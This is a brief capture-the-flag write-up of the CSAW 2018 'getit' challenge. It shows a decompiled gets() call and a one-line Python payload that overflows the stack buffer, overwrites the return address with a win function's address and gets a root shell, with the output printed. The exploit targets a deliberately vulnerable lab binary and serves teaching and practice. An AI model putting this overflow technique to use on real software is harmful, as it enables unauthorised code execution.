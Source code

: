 # CSAW 2018 getit

PIE is disabled. Easy overflow and call to win function. 

```c
  puts("Do you gets it??");
  gets(local_28);
  return 0;
```

```bash
[root@pwn:~/csaw18_getit]$ (python -c 'print "A" * 32 + "BBBBBBBB"  + "\xb6\x05\x40\
x00\x00\x00\x00\x00"'; cat -) | ./get_it 
Do you gets it??
whoami
root
```